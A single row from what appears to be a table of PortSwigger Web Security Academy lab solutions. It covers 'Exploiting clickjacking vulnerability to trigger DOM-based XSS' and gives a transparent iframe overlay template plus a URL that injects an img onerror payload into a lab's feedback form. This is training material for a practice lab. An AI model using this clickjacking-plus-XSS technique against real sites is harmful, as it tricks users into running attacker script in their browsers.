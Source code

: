 |57    |Exploiting clickjacking vulnerability to trigger DOM-based XSS                                                           |<style> 	iframe { 		position:relative; 		width:$width_value; 		height: $height_value; 		opacity: $opacity; 		z-index: 2; 	} 	div { 		position:absolute; 		top:$top_value; 		left:$side_value; 		z-index: 1; 	} </style> <div>Test me</div> <iframe src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |This calls the print function on the victims browser                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |Clickjacking, Practitioner                  |